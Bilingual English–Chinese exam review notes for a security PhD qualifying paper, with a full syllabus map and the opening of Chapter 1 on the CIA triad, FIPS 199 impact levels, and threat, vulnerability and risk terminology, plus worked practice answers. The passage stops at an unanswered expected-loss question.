计算机与网络安全 复习笔记
考试规则：Closed book and closed notes. A basic scientific calculator is allowed.
这是复习版：只留会考的内容。每章开头的 Exam map 列出这一章能考什么、对应的公式或结论；每一节是一个考点，标题后面的 ★★★ 是必考、★★ 是常考、★ 是认识即可。时间紧时点左侧「只看 ★★★ 必考」，页面只留必考小节。每节的顺序是：目标 → 需要的基础知识 → 分步讲解 → 例题 → 易错点 → 练习。章末是 Exam-style questions 和折叠起来的教材习题（题目和答案都在）。
正文用英文（考试用英文作答），每段英文下方是中文翻译；左侧「隐藏中文」可以切换成纯英文自测。点任意原图可以放大。
GuideHow to Use These Notes导读
These notes prepare for the Computer and Network Security paper of the Computer Science PhD Written Qualifying Exam at Khalifa University. They cover every topic of the syllabus, at the level of the undergraduate courses COSC 340 Introduction to Computer Security; CCEN 446 Network Security.本笔记用于准备哈利法大学计算机科学博士书面资格考试中的计算机与网络安全科目。笔记覆盖大纲的全部主题，难度与本科课程 COSC 340（计算机安全导论）和 CCEN 446（网络安全）相当。
The exam考试
- Closed book and closed notes. A basic scientific calculator is allowed.闭卷，不得携带任何资料。允许使用基础科学计算器。
- Answers are written in English. Every chapter therefore gives the definitions, steps and model answers in English, with a Chinese translation under each paragraph.答题须用英文作答，因此每章都以英文给出定义、步骤和参考答案，并在每段下方附中文译文。
- Expect definitions and comparisons (threat vs vulnerability vs attack, signature vs anomaly detection, stateless vs stateful firewalls, AH vs ESP, transport vs tunnel mode), small cryptographic calculations (classical ciphers, gcd and inverses, RSA, Diffie–Hellman, birthday bound), and attack-and-defence explanations (buffer overflow, format string, SQL injection, XSS, rainbow tables, DDoS amplification).考题可能包括：定义题与比较题（威胁、脆弱性与攻击的区别；特征码检测与异常检测；无状态防火墙与有状态防火墙；AH 与 ESP；传输模式与隧道模式）；小型密码学计算题（古典密码、gcd 与逆元、RSA、Diffie–Hellman、生日界限）；以及攻防解释题（缓冲区溢出、格式化字符串、SQL 注入、XSS、彩虹表、DDoS 放大攻击）。
Primary textbooks: [1] W. Stallings and L. Brown, Computer Security: Principles and Practice, 5th ed. (Global Edition), Pearson, 2024; [2] W. Stallings, Cryptography and Network Security, 8th ed.主要教材：[1] W. Stallings 与 L. Brown 合著的 Computer Security: Principles and Practice，第5版（全球版），Pearson，2024；[2] W. Stallings，Cryptography and Network Security，第8版。
Syllabus map大纲对照表
How to read these notes如何阅读这些笔记
These are review notes. They keep what can be examined and explain it step by step. Every section carries a priority.这些是复习笔记。它们只保留可能考到的内容，并一步一步地解释。每一节都标有优先级。
| Mark标记 | Meaning含义 | What to do做法 |
|---|---|---|
| ★★★ | Core: expect a question核心：预计会考 | Be able to answer without the notes. Redo the worked example, then do all the practice questions不看笔记也能作答。重做例题，然后做完所有练习题 |
| ★★ | Likely很可能 | Know the definitions, the lists and the comparisons. Do one practice question掌握定义、列表和比较内容。做一道练习题 |
| ★ | Recognise认识 | Read it once. Know what each term means读一遍，知道每个术语的含义 |
- Start each chapter with its Exam map. It lists what can be asked and gives the key formula or fact in one line.每章先看 考点表。它列出可能考的内容，并用一行给出关键公式或结论。
- Read a section in this order: the goal, the Basics boxes if an idea is new to you, the steps with their "In words" lines, the worked example, the traps.读一节时按这个顺序：目标；如果某个概念对你是新的，就看“基础”框；带有“用文字表述：”的各个步骤；例题；易错点。
- Do the Practice questions before you open the answers. Write your answers in English.先做练习题，再看答案。用英文写出你的答案。
- At the end of a chapter, answer the Exam-style questions under exam conditions. The textbook exercises are folded below them, and all of them have answers.章末在考试条件下作答考试题型练习。课后习题折叠在它们下面，并且全部都有答案。
- Before the exam, read the Formula sheet and the Traps appendix at the end of the page, and redo the questions you got wrong. Hide the Chinese (button on the left) for a last English-only pass.考前阅读页末的公式表和易错点附录，并重做做错的题。点击左侧按钮可以隐藏中文，进行最后一遍纯英文复习。
Core items by chapter各章核心内容
| Chapter章节 | Core items ★★★核心内容 ★★★ | Also likely ★★同样可能考 ★★ |
|---|---|---|
| 1. Security Concepts: Threats, Attacks and Assets1. 安全概念：威胁、攻击与资产 | Security objectives and impact levels; Assets, vulnerabilities, threats and risk; Threats and attacks; Fundamental security design principles安全目标与影响等级；资产、漏洞、威胁与风险；威胁与攻击；安全设计基本原则 | Security services, mechanisms and requirements; Attack surfaces, attack trees and security strategy安全服务、安全机制与要求；攻击面、攻击树与安全策略 |
| 2. Symmetric Cipher Model and Classical Ciphers2. 对称密码模型与经典密码 | Symmetric cipher model; Cryptanalysis and brute-force attack; Substitution ciphers: Caesar and monoalphabetic; Playfair and Hill ciphers; Polyalphabetic ciphers and the one-time pad对称密码模型；密码分析与穷举攻击；代换密码：凯撒密码与单表代换；Playfair 密码与 Hill 密码；多表代换密码与一次一密 | Transposition ciphers and comparison置换密码与比较 |
| 3. Number Theory for Cryptography3. 密码学中的数论 | Divisibility and modular arithmetic; The Euclidean algorithm and modular inverses; Primes, Fermat's theorem and Euler's theorem; The Chinese remainder theorem整除与模运算；欧几里得算法与模逆元；素数、费马定理与欧拉定理；中国剩余定理 | Primality testing: Miller–Rabin; Primitive roots and discrete logarithms素性检验：Miller–Rabin；原根与离散对数 |
| 4. Block Ciphers and DES4. 分组密码与 DES | Block ciphers, the ideal cipher and Shannon's principles; The Feistel cipher; The Data Encryption Standard分组密码、理想密码与香农原则；Feistel 密码；数据加密标准 | A DES example and the avalanche effect; The strength of DESDES 算例与雪崩效应；DES 的安全性 |
| 5. Finite Fields5. 有限域 | The Finite Field GF(p); Polynomial Arithmetic; Finite Fields GF(2ⁿ) and AES Arithmetic有限域 GF(p)；多项式运算；有限域 GF(2ⁿ) 与 AES 运算 | Groups, Rings and Fields群、环与域 |
| 6. Advanced Encryption Standard (AES)6. 高级加密标准（AES） | AES Structure; The Four Round TransformationsAES 结构；四种轮变换 | Finite-Field Arithmetic for AES; Key Expansion; Decryption and ImplementationAES 的有限域运算；密钥扩展；解密与实现 |
| 7. Multiple Encryption and Block Cipher Modes7. 多重加密与分组密码工作模式 | Multiple Encryption and Triple DES; Block Cipher Modes of Operation and ECB; Chaining Modes: CBC and CFB; Stream-Like Modes: OFB and CTR; Comparing the Modes多重加密与三重 DES；分组密码工作模式与 ECB；链接模式：CBC 与 CFB；类流模式：OFB 与 CTR；各模式的比较 | Key Distribution密钥分发 |
| 8. Random Bit Generation and Stream Ciphers8. 随机比特生成与流密码 | Random numbers and the PRNG model; Linear congruential and Blum Blum Shub generators; Stream ciphers and RC4随机数与 PRNG 模型；线性同余生成器与 Blum Blum Shub 生成器；流密码与 RC4 | Block-cipher PRNGs and CTR_DRBG; Shift-register ciphers, Grain-128a and ChaCha20; True random number generators基于分组密码的 PRNG 与 CTR_DRBG；移位寄存器密码、Grain-128a 与 ChaCha20；真随机数生成器 |
| 9. Public-Key Cryptography and RSA9. 公钥密码与 RSA | Principles of Public-Key Cryptosystems; The RSA Algorithm; Fast Exponentiation and Efficient RSA; Security of RSA: Factoring and Mathematical Attacks公钥密码体制原理；RSA 算法；快速幂运算与高效 RSA；RSA 的安全性：因数分解与数学攻击 | Key Generation; Timing, Fault and Chosen-Ciphertext Attacks密钥生成；计时攻击、故障攻击与选择密文攻击 |
| 10. Diffie–Hellman, ElGamal and Elliptic Curve Cryptography10. Diffie–Hellman、ElGamal 与椭圆曲线密码 | Diffie–Hellman key exchange; Man-in-the-middle attack; ElGamal cryptosystem; Elliptic curve arithmeticDiffie–Hellman 密钥交换；中间人攻击；ElGamal 密码体制；椭圆曲线运算 | Elliptic curve cryptography椭圆曲线密码学 |
| 11. Cryptographic Hash Functions11. 密码散列函数 | Hash functions and their applications; Security requirements; Brute-force attacks and the birthday attack散列函数及其应用；安全要求；穷举攻击与生日攻击 | Iterated hash structure and the SHA family; SHA-512迭代散列结构与 SHA 系列；SHA-512 |
| 12. Message Authentication Codes and Authenticated Encryption12. 消息认证码与认证加密 | Message Authentication: Threats and Approaches; MAC: Definition, Requirements and Security; HMAC: A MAC from a Hash Function消息认证：威胁与方法；MAC：定义、要求与安全性；HMAC：基于散列函数的 MAC | Block-Cipher MACs: DAA and CMAC; Authenticated Encryption: Composition, CCM, GCM and OCB基于分组密码的 MAC：DAA 与 CMAC；认证加密：组合方式、CCM、GCM 与 OCB |
| 13. Digital Signatures and Public-Key Certificates13. 数字签名与公钥证书 | Digital Signatures: Model, Attacks and Requirements; Public-Key Certificates and Key Distribution数字签名：模型、攻击与安全要求；公钥证书与密钥分发 | ElGamal and Schnorr Signatures; DSA and ECDSA; RSA-PSS and a Comparison of the SchemesElGamal 与 Schnorr 签名；DSA 与 ECDSA；RSA-PSS 与各方案的比较 |
| 14. Buffer Overflow and Stack Overflow Attacks14. 缓冲区溢出与栈溢出攻击 | Buffer Overflow Basics and Memory Layout; Stack Frames and Function-Call Mechanics; Stack Buffer Overflow Attacks; Shellcode and the NOP Sled; Defending Against Buffer Overflow缓冲区溢出基础与内存布局；栈帧与函数调用机制；栈缓冲区溢出攻击；Shellcode 与 NOP 滑板；缓冲区溢出的防御 | Other Stack-Overflow Variants; Heap and Global Data Overflows其他栈溢出变体；堆与全局数据溢出 |
| 15. Software Security: Input Handling, Format Strings and XSS15. 软件安全：输入处理、格式化字符串与 XSS | Handling program input; Injection attacks; Cross-site scripting and safe output; Format-string vulnerabilities处理程序输入；注入攻击；跨站脚本与安全输出；格式化字符串漏洞 | Software security and defensive programming; Safe program code, races and the operating system软件安全与防御式编程；安全的程序代码、竞争条件与操作系统 |
| 16. Database Security and SQL Injection16. 数据库安全与 SQL 注入 | SQL injection attacks; Database access controlSQL 注入攻击；数据库访问控制 | Role-based access control (RBAC); Inference; Database encryption基于角色的访问控制（RBAC）；推理攻击；数据库加密 |
| 17. User Authentication and Password Security17. 用户认证与口令安全 | Authentication principles and factors; Password-based authentication: attacks, hashing and salt; Cracking passwords and choosing better ones; Remote authentication: replay, challenge–response and key distribution认证原理与认证因子；基于口令的认证：攻击、散列与盐值；破解口令与选择更好的口令；远程认证：重放、挑战–应答与密钥分发 | Token-based authentication; Biometric authentication; Kerberos, public-key protocols and federated identity基于令牌的认证；生物特征认证；Kerberos、公钥协议与联合身份 |
| 18. Malicious Software18. 恶意软件 | Malware types, attack kits and APTs; Viruses; Worms; Payloads: information theft, backdoors and rootkits; Countermeasures and detection恶意软件类型、攻击工具包与 APT；病毒；蠕虫；载荷：信息窃取、后门与 rootkit；对策与检测 | Drive-by-downloads, social engineering and Trojans; Payloads: system corruption and bots路过式下载、社会工程与木马；载荷：系统破坏与僵尸程序 |
| 19. Transport-Level Security: SSL/TLS, HTTPS and SSH19. 传输层安全：SSL/TLS、HTTPS 与 SSH | Web Security and TLS Architecture; TLS Record, Change Cipher Spec and Alert Protocols; TLS Handshake Protocol and Key Derivation; HTTPSWeb 安全与 TLS 体系结构；TLS 记录协议、密码规格变更协议和警报协议；TLS 握手协议与密钥导出；HTTPS | TLS 1.3, Attacks and Heartbleed; Secure Shell (SSH)TLS 1.3、攻击与 Heartbleed；安全外壳（SSH） |
| 20. IP Security (IPsec) and VPNs20. IP 安全（IPsec）与 VPN | Security associations, SAD and SPD; Encapsulating Security Payload (ESP); Transport mode, tunnel mode and AH安全关联、SAD 与 SPD；封装安全载荷（ESP）；传输模式、隧道模式与 AH | IPsec overview and services; Combining security associations; Internet Key Exchange (IKE)IPsec 概述与服务；组合安全关联；因特网密钥交换（IKE） |
| 21. Firewalls, DMZ and VPN Configurations21. 防火墙、DMZ 与 VPN 配置 | Firewall role, policy and limits; Packet filtering firewalls; Stateful inspection and gateways; DMZ, VPN and distributed firewalls防火墙的作用、策略与局限；包过滤防火墙；状态检测与网关；隔离区、VPN 与分布式防火墙 | Intrusion prevention and UTM入侵防御与 UTM |
| 22. Intrusion Detection, Snort and Honeypots22. 入侵检测、Snort 与蜜罐 | Intrusion Detection and the Base-Rate Fallacy; Anomaly Detection versus Signature Detection; Network-Based and Distributed Intrusion Detection; Honeypots and Honeynets; Snort: Architecture and Rules入侵检测与基率谬误；异常检测与特征检测；基于网络的入侵检测与分布式入侵检测；蜜罐与蜜网；Snort：体系结构与规则 | Intruders and the Attack Methodology; Host-Based Intrusion Detection入侵者与攻击方法论；基于主机的入侵检测 |
| 23. Denial-of-Service Attacks and Botnets23. 拒绝服务攻击与僵尸网络 | Nature of DoS Attacks and Source Address Spoofing; SYN Spoofing and Flooding Attacks; Distributed Denial-of-Service Attacks and Botnets; Reflector and Amplifier Attacks; Defences and ResponseDoS 攻击的性质与源地址欺骗；SYN 欺骗与洪泛攻击；分布式拒绝服务攻击与僵尸网络；反射与放大攻击；防御与响应 | Application-Based Bandwidth Attacks基于应用的带宽攻击 |
| 24. Cloud, IoT and SCADA Security24. 云、物联网与 SCADA 安全 | Cloud computing: characteristics, service models and architecture; Cloud security: threats and countermeasures; SCADA and industrial control system security云计算：基本特征、服务模型与架构；云安全：威胁与对策；SCADA 与工业控制系统安全 | The Internet of Things: devices, fog and cloud; IoT security物联网：设备、雾计算与云；物联网安全 |
Chapter 1Security Concepts: Threats, Attacks and Assets安全概念：威胁、攻击与资产Reading: Stallings & Brown Ch. 1; Stallings (Crypto) Ch. 1
Security objectives and impact levels ★★★安全目标与影响等级
Goal. Define the five security objectives, give an example of losing each one, and rate the impact of a loss as low, moderate or high. Combine the ratings of several data sets into one rating for a system.目标。 定义五个安全目标，给出每个目标丢失的例子，并把丢失的影响评为低、中或高。把多个数据集的评级合并为一个系统评级。
Step 1: the objectives第 1 步：安全目标
In words: computer security = keeping information and systems secret from the wrong people, unchanged by the wrong people, and usable by the right people.用文字表述：计算机安全 = 使信息和系统对错误的人保密、不被错误的人改动，并且可以被正确的人使用。
NIST defines computer security（计算机安全）as the measures and controls that ensure the confidentiality, integrity and availability of information processed and stored by a computer. This covers hardware, software, firmware, data and telecommunications. The three objectives form the CIA triad（CIA 三元组）. Everyday example: a bank card record should not be read by strangers (confidentiality), should not be edited by strangers (integrity) and should be reachable when the owner pays (availability).NIST 把计算机安全定义为：为确保计算机所处理和存储的信息的机密性、完整性和可用性而采取的措施和控制。这包括硬件、软件、固件、数据和电信。三个目标构成 CIA 三元组。日常例子：银行卡记录不应被陌生人读取（机密性），不应被陌生人修改（完整性），并且在户主付费时应当可以访问（可用性）。
| Objective目标 | Assures that …保证…… | A loss is …损失是…… |
|---|---|---|
| Confidentiality（机密性） | Data confidentiality: private information is not disclosed to unauthorized individuals. Privacy（隐私）: individuals control what information about them is collected and stored, by whom, and to whom it is disclosed数据机密性：私有信息不向未授权的个人泄露。隐私：个人可控制关于自己的哪些信息被收集和存储、由谁收集和存储，以及向谁披露。 | unauthorized disclosure未授权泄露 |
| Integrity（完整性） | Data integrity: information and programs change only in a specified and authorized manner. System integrity: a system performs its intended function unimpaired, free from deliberate or inadvertent unauthorized manipulation数据完整性：信息和程序只能以指定的、经授权的方式发生变化。系统完整性：系统履行其预定功能而不受损害，免于蓄意或无意的未授权操纵。 | unauthorized modification or destruction未授权修改或破坏 |
| Availability（可用性） | Systems work promptly and service is not denied to authorized users系统及时工作，授权用户不会遭到拒绝服务 | disruption of access to or use of information or a system中断对信息或系统的访问或使用 |
Two more objectives are often added.常常还会增加两个目标。
- Authenticity（真实性）: the property of being genuine and verifiable. Users are who they say they are, and each input comes from a trusted source.真实性：事物是真实的且可以验证的性质。用户确实是他们所声称的人，每一项输入都来自可信的来源。
- Accountability（可追责性）: the actions of an entity can be traced uniquely to that entity. It supports nonrepudiation（不可否认性）, deterrence, fault isolation, intrusion detection, recovery and legal action. Truly secure systems are not yet achievable, so records are kept for forensic analysis.可追责性：实体的行为可以被唯一地追溯到该实体。它支持不可否认性、威慑、故障隔离、入侵检测、恢复和法律诉讼。目前还无法做到真正安全的系统，因此要保留记录以供取证分析。
FIPS 199 counts authenticity and nonrepudiation under integrity. Example: a forged e-mail from "the boss" breaks authenticity. A clerk who denies having approved a payment breaks accountability.FIPS 199 把真实性和不可否认性归入完整性之下。例如，伪造的、署名“老板”的电子邮件破坏了真实性。一名否认自己批准过某笔付款的职员，则破坏了可追责性。
Related terms: cybersecurity（网络空间安全）covers information in networked systems including the Internet. Information security（信息安全）also covers paper. Network security（网络安全）protects networks and their services from unauthorized modification, destruction or disclosure.相关术语：网络空间安全涵盖联网系统中的信息，包括互联网。信息安全还包括纸质信息。网络安全保护网络及其服务，防止未经授权的修改、破坏或泄露。
Step 2: impact levels and the high-water mark第 2 步：影响等级与高水位
In words: the impact level says how bad a loss would be, and a system is rated by the worst data set it holds.用文字表述：影响等级说明损失有多严重，系统的评级由它所持有的最严重的数据集决定。
FIPS 199 rates the damage of losing one objective on three levels.FIPS 199 将丢失某一目标所造成的损害分为三个等级。
| Level等级 | Adverse effect不利影响 | Meaning含义 |
|---|---|---|
| Low低 | Limited有限 | Noticeably reduced effectiveness; minor damage, loss or harm效能明显降低；轻微的损害、损失或伤害 |
| Moderate中 | Serious严重 | Significantly reduced effectiveness; significant damage, loss or harm, no loss of life效能显著降低；重大的损害、损失或伤害，但不造成人员死亡 |
| High高 | Severe or catastrophic严重或灾难性 | A primary function cannot be performed; major damage or loss; loss of life or life-threatening injury主要功能无法执行；重大的损害或损失；人员死亡或危及生命的伤害 |
Typical cases of each level:各等级的典型情形：
| Objective目标 | Low低 | Moderate中 | High高 |
|---|---|---|---|
| Confidentiality机密性 | Public directory of students and faculty面向公众的学生与教职员名录 | Student enrolment records学生注册记录 | Student grades (FERPA)学生成绩（FERPA） |
| Integrity完整性 | Anonymous online poll匿名在线投票 | Forum for registered users面向注册用户的论坛 | Patient allergy data in a hospital database医院数据库中的患者过敏数据 |
| Availability可用性 | Online telephone directory (alternatives exist)在线电话号码簿（存在替代方式） | Public university website大学公共网站 | Authentication service for critical systems关键系统的认证服务 |
Each data set gets three ratings, one for each objective. The system takes, for each objective, the highest rating of its data sets. This is the high-water mark（高水位）. The overall category of the system is the highest of the three.每个数据集都有三个评级，分别对应三个目标。系统对每个目标取其数据集中的最高评级，这就是高水位。系统的总体类别是这三个评级中最高的一个。
Step 3: why security is hard第 3 步：为什么安全很难
Ten challenges are usually named. Grouped, they are these seven points, to be listed in the exam.通常会列出十项挑战。归并之后，就是下面七点，考试时要列出这七点。
- The requirements look simple, but the mechanisms are subtle and must anticipate unexpected attacks.需求看起来简单，但机制很微妙，而且必须预料到意想不到的攻击。
- Mechanisms must be placed physically (where in the network) and logically (which protocol layer).机制必须在物理上（位于网络中的何处）和逻辑上（位于哪一协议层）加以部署。
- They need secret keys that must be created, distributed and protected, and rely on protocols whose behaviour, such as variable delay, can undermine them.它们需要秘密密钥，而密钥必须被生成、分发和保护；它们还依赖协议，而协议的行为（例如时延不固定）可能破坏安全。
- It is a battle of wits: the attacker needs one weakness, the defender must close all.这是一场智力较量：攻击者只需找到一个弱点，而防御者必须堵住所有弱点。
- Users and managers see little benefit until a failure occurs, and security is often seen as an obstacle to usability.用户和管理者在故障发生之前看不到多少好处，安全常常被视为妨碍易用性的障碍。
- Security needs regular, even constant, monitoring, which is hard to keep up in a busy organisation.安全需要定期甚至持续的监控，而在忙碌的机构里很难保持下去。
- Security is too often added after the design is finished, instead of being part of the design.安全常常是在设计完成之后才加上去，而不是作为设计的一部分。
Practice练习
Q1. (Concept) Define data confidentiality, privacy, data integrity and system integrity. Which of them (or availability) is violated when (a) a nurse reads the record of a patient she does not treat, (b) a virus makes the operating system ignore some commands, (c) a hacker changes a patient's allergy list, (d) a flood of requests keeps customers from ordering on a web shop?Q1. （概念）定义数据机密性、隐私、数据完整性和系统完整性。以下情形中，哪一项（或可用性）遭到破坏：（a）护士读取了她并不负责治疗的患者的病历；（b）病毒使操作系统忽略了某些命令；（c）黑客修改了患者的过敏清单；（d）大量请求使顾客无法在网店下单？
Answer
Data confidentiality: private information is not disclosed to unauthorized individuals. Privacy: individuals control or influence what information about them is collected and stored, by whom, and to whom it is disclosed. Data integrity: information and programs change only in a specified and authorized manner. System integrity: a system performs its intended function unimpaired, free from deliberate or inadvertent unauthorized manipulation.数据机密性：私有信息不向未授权的个人泄露。隐私：个人能够控制或影响关于自己的哪些信息被收集和存储、由谁收集和存储，以及向谁披露。数据完整性：信息和程序只能以指定且经授权的方式发生变化。系统完整性：系统履行其预定功能而不受损害，免于蓄意或无意的未授权操纵。
(a) Data confidentiality (and the patient's privacy). (b) System integrity. (c) Data integrity. (d) Availability.（a）数据机密性（以及患者的隐私）。（b）系统完整性。（c）数据完整性。（d）可用性。
Q2. (Scenario) An ATM accepts a card and a PIN. Give one confidentiality, one integrity and one availability requirement and rate each as low, moderate or high.Q2. （情景分析）ATM 接受银行卡和 PIN 码。请分别给出一项机密性要求、一项完整性要求和一项可用性要求，并将每项评为低、中或高。
Answer
- Confidentiality: the PIN and account data must not be disclosed. High, because disclosure allows direct theft.机密性：PIN 和账户数据不得泄露。评为高，因为泄露会直接导致盗窃。
- Integrity: amounts and balances must be recorded exactly as entered. High, because errors or falsification cause direct financial loss and liability.完整性：金额和余额必须严格按照输入记录。评为高，因为错误或篡改会直接造成经济损失和赔偿责任。
- Availability: the ATM should be usable on demand. Low, because customers can use another machine or a branch and an outage is an annoyance.可用性：ATM 应能按需使用。评为低，因为客户可以使用其他机器或前往分行，停机只是不便。
Other ratings are acceptable if justified (for example, moderate availability for a bank whose customers depend on few machines).只要有充分理由，也可以接受其他评级（例如，对于客户只能依赖少数机器的银行，可用性评为中）。
Q3. (Calculation) A SCADA system controls power distribution for a large military installation. Its real-time sensor data need confidentiality low, integrity high, availability high; its routine administrative data are low for all three. Give the security category of each data set and of the system.Q3. （计算）某套 SCADA 系统控制着一处大型军事设施的配电。其实时传感器数据的机密性等级为低，完整性和可用性等级均为高；其日常行政数据在三个目标上的等级均为低。请给出每个数据集以及整个系统的安全类别。
Answer
Sensor data: \(\{(C,\text{low}),(I,\text{high}),(A,\text{high})\}\). Administrative data: \(\{(C,\text{low}),(I,\text{low}),(A,\text{low})\}\). Taking the maximum per objective, the system is \(\{(C,\text{low}),(I,\text{high}),(A,\text{high})\}\), so its overall impact is high. Reason: false sensor values or a lost real-time feed can cause wrong control actions or loss of power, while the sensor values themselves are of little use to an adversary.传感器数据：\(\{(C,\text{low}),(I,\text{high}),(A,\text{high})\}\)。行政数据：\(\{(C,\text{low}),(I,\text{low}),(A,\text{low})\}\)。按每个目标取最大值，系统为 \(\{(C,\text{low}),(I,\text{high}),(A,\text{high})\}\)，因此其总体影响为高。理由：传感器数值错误或实时数据流丢失可能导致错误的控制动作或断电，而传感器数值本身对攻击者用处不大。
易错：系统等级不是各数据集的平均，而是逐目标取最大值。
Assets, vulnerabilities, threats and risk ★★★资产、漏洞、威胁与风险
Goal. Define the core terms and tell them apart, say how they relate, and compute the expected loss to choose between countermeasures.目标。 定义核心术语并区分它们，说明它们之间的关系，并计算期望损失以便在对策之间做选择。
Step 1: the terms第 1 步：术语
In words: an asset is what you protect and a vulnerability is a weak spot. A threat is a possible harm, an attack is that harm carried out, and risk is how likely and how costly it is.用文字表述：资产是你要保护的东西，漏洞是薄弱之处。威胁是可能的危害，攻击是危害的实际执行，风险是危害发生的可能性及其代价。
The assets of a computer system fall into four categories.计算机系统的资产分为四类。
- Hardware: computers, and data processing, storage and communication devices.硬件：计算机，以及数据处理、存储和通信设备。
- Software: operating system, utilities and applications.软件：操作系统、实用程序和应用程序。
- Data: files, databases and security-related data such as password files.数据：文件、数据库，以及与安全相关的数据，例如口令文件。
- Communication facilities and networks: LAN and WAN links, bridges and routers.通信设施与网络：局域网和广域网链路、网桥和路由器。
| Term术语 | Meaning含义 |
|---|---|
| Asset（资产）/ system resource资产 / 系统资源 | What users and owners wish to protect (applications, systems, equipment, personnel)用户和所有者希望保护的对象（应用、系统、设备、人员） |
| Vulnerability（漏洞） | Weakness in a system, its procedures, controls or implementation that a threat source could exploit or trigger系统、其规程、控制或实现中的弱点，可能被威胁源利用或触发 |
| Threat（威胁） | Any circumstance or event with the potential to harm operations, assets or individuals through unauthorized access, destruction, disclosure, modification or denial of service任何可能通过未授权访问、破坏、泄露、修改或拒绝服务而损害运行、资产或个人的情形或事件 |
| Attack（攻击） | A threat carried out (threat action): malicious activity that attempts to collect, disrupt, deny, degrade or destroy resources or information; if successful it causes a threat consequence已付诸实施的威胁（威胁行为）：试图收集、干扰、拒绝、降低或破坏资源或信息的恶意活动；若成功，则会造成威胁后果 |
| Adversary（对手）/ threat agent对手 / 威胁主体 | Individual, group, organization or government that conducts or intends to conduct detrimental activities开展或意图开展有害活动的个人、团体、组织或政府 |
| Countermeasure（对策） | Device or technique that impairs adversarial activity or prevents espionage, sabotage, theft or unauthorized access能够削弱对手活动，或防止间谍活动、破坏、盗窃或未授权访问的设备或技术 |
| Risk（风险） | Extent to which an entity is threatened by a potential event: a function of the adverse impact and the likelihood of occurrence实体受潜在事件威胁的程度：是不利影响与发生可能性的函数 |
| Security policy（安全策略） | Criteria for the provision of security services that define and constrain activities提供安全服务的准则，用于界定和约束相关活动 |
Everyday example (a house): the asset is the jewellery. The vulnerability is an unlocked back door. The threat agent is a burglar. The threat is the chance that someone walks in and steals. The attack is the actual break-in. The countermeasure is a lock. A lock can itself be weak, so some residual risk always remains.日常例子（住宅）：资产是首饰。漏洞是一扇没锁的后门。威胁主体是窃贼。威胁是有人走进来偷窃的可能。攻击是实际的入室行窃。对策是门锁。门锁本身也可能不牢靠，所以总会留有一些剩余风险。
Step 2: how the terms relate第 2 步：术语之间的关系
In words: threat agents use threats to exploit vulnerabilities of assets, and owners answer with countermeasures.用文字表述：威胁主体利用威胁来利用资产的漏洞，所有者则用对策加以应对。
Owners ─ value ───────────────────────────▶ Assets
Owners ─ wish to minimize ────────────────▶ Risk
Owners ─ impose ──────────────────────────▶ Countermeasures ─ reduce ─▶ Vulnerabilities and Risk
Threat agents ─ wish to abuse / may damage ─▶ Assets
Threat agents ─ give rise to ─────────────▶ Threats
Threats ─ exploit ────────────────────────▶ Vulnerabilities
Vulnerabilities ─ lead to ────────────────▶ Risk (to Assets)
Threats ─ increase ───────────────────────▶ Risk
Countermeasures ─ may leave or add ───────▶ Vulnerabilities (residual risk)
Read it as a chain. Owners value assets and want to minimize risk. Threat agents wish to abuse the assets and give rise to threats. Threats exploit vulnerabilities, and vulnerabilities lead to risk for the assets. Owners impose countermeasures that reduce vulnerabilities and risk. Countermeasures may leave or add vulnerabilities, which is the residual risk.把它看作一条链。所有者重视资产，希望把风险降到最低。威胁主体想要滥用资产，从而产生威胁。威胁利用漏洞，而漏洞会给资产带来风险。所有者施加对策，以降低漏洞和风险。对策本身可能留下漏洞，或者新增漏洞，这就是剩余风险。
Vulnerabilities correspond to the three objectives. A system can be corrupted (it does the wrong thing: integrity), leaky (someone without authorization gets information: confidentiality) or unavailable or very slow (availability). A countermeasure should prevent an attack. If prevention fails, the goal is to detect the attack and recover. A countermeasure can introduce new vulnerabilities, so a residual risk（剩余风险）remains that owners minimize within other constraints.漏洞与三个目标相对应。系统可能被破坏（做了错误的事：完整性），可能泄漏（未经授权的人获得了信息：机密性），也可能不可用或非常慢（可用性）。对策应当预防攻击。如果预防失败，目标是检测攻击并恢复。对策本身可能引入新的漏洞，因此会留下剩余风险（residual risk），所有者需要在其他约束条件下将其降到最低。
Step 3: risk and the choice of a countermeasure第 3 步：风险与对策的选择
In words: risk = how likely the harm is × how much it costs.用文字表述：风险 = 危害发生的可能性 × 危害造成的代价。
To compare options, add the yearly cost of a countermeasure to the expected loss that remains. The option with the lowest total is the best.比较方案时，把对策的年度成本与剩余期望损失相加。总和最低的方案最好。
Practice练习
Q1. (Terminology) A web server runs an unpatched library. A criminal group wants customer card numbers, exploits the flaw and downloads the customer database. Name the asset, vulnerability, threat agent, threat, attack and threat consequence. Name a countermeasure and the risk that remains.Q1. （术语）一台 Web 服务器运行着一个未打补丁的库。一个犯罪团伙想获取客户的银行卡号，利用该缺陷下载了客户数据库。请指出资产、漏洞、威胁主体、威胁、攻击和威胁后果，再给出一项对策以及仍然存在的风险。
Answer
Asset: the customer database (data) and the server. Vulnerability: the unpatched library. Threat agent: the criminal group (an outsider). Threat: the possibility that card numbers are obtained through the flaw. Attack: the actual exploitation and download (an intrusion). Threat consequence: unauthorized disclosure, a loss of confidentiality. Countermeasures: patching, a web application firewall and encryption of stored card numbers. Residual risk: unknown flaws, misconfiguration of the new controls (a new vulnerability) and insiders; the owner accepts what remains after weighing cost.资产：客户数据库（数据）和服务器。漏洞：未打补丁的库。威胁主体：该犯罪团伙（外部人员）。威胁：通过该缺陷获取卡号的可能性。攻击：实际的利用与下载（一次入侵）。威胁后果：未授权泄露，即机密性丧失。对策：打补丁、部署 Web 应用防火墙，并对已存储的卡号加密。剩余风险：未知的缺陷、新控制措施的配置错误（即一个新的漏洞）以及内部人员；所有者在权衡成本后接受剩余的风险。
Q2. (Calculation) A threat with likelihood 0.2 per year would cause a loss of $50,000. Countermeasure A costs $3,000 per year and reduces the likelihood to 0.05. Countermeasure B costs $9,000 per year and reduces it to 0.01. Which option should the owner choose?Q2. （计算）某威胁的年发生可能性为 0.2，一旦发生将造成 $50,000 的损失。对策 A 每年花费 $3,000，可将可能性降至 0.05；对策 B 每年花费 $9,000，可将可能性降至 0.01。所有者应选择哪一种？
Answer
